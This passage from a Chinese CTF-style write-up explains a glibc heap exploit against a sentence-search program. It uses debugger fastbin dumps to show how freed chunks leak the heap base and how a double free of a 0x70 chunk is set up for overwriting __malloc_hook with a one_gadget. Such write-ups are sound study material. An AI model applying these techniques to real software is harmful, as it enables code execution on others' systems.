 然后调用search函数free掉第一个句子的堆块（第一个Word结构体的word_ptr指向该地址），在free之前，又malloc了一个0x20存放所搜索单词的堆块，从top chunk中获取内存空间。此时得到一个fastbin：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE) 
```

然后再free单词所在堆块，结果为：

```c
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a1b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE)
```

然后再一次调用search函数，malloc一个堆块存储单词，直接从fastbin中分配，然后free掉的二哥句子所在堆块，此时fastbin情况为：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a100, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE)
```

再次free掉单词堆块：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a1b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a100, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE)
```

此时0xb3a100这个fastbin指向第一个堆块0xb3a020这个堆块，指向的地址为该堆块的头0xb3a010，而这个地址减去0x1010就是heapbase，同时0xb3a100作为之前存储“c cccccccccccccc”句子的堆块，自然作为一个Word结构体的word_ptr的值而存在，因此调用search函数搜索0x10，即可获取到0xb3a010这个值，从而泄露出heapbase。

```shell
[*] heap_base: 0xb39000
```

然后free掉本次搜索单词所在堆块，bins中余下3个fastbin：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a1b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a100, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE)
```

#### 3.1.3	覆写__malloc_hook到one_gadget
在泄露了heap_base之后，exp调用了三次index函数，创建了3个存储句子的0x70的堆块，同时还malloc了6个0x30的Word结构体堆块，在这之后，top chunk的地址也增加了`0xd0 * 3`即0x270，然后调用三次search函数搜索单词，最后将3个存储句子的0x70大小的堆块free到fastbin中，此时fastbin的情形如下：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a1b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a100, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0xb3a370, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a2a0, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a1d0, size=0x70, flags=PREV_INUSE) 
Fastbins[idx=6, size=0x70] 0x00
```

然后搜索heapbase+0x11c0（此时为0xb3a1c0），是为了double free中间0xb3a2a0这个chunk。原因是此时0xb3a2a0这个chunk作为存储句子的堆块，肯定是在Word结构体链表中作为word_ptr存在的，因此搜索单词肯定会遍历到这个地址，同时，0xb3a2a0处存储的是这个chunk的fd指针，指向下一个chunk，值为0xb3a1c0，因此通过搜索这个地址值，就可以实现对中间chunk的double free。而之前构造句子时构造4个字符的单词也是为了使后面与4个字节的地址比较能够返回成功进入到删除将sentence的chunk释放的流程，同理前面构造1个字符的单词原理类似。
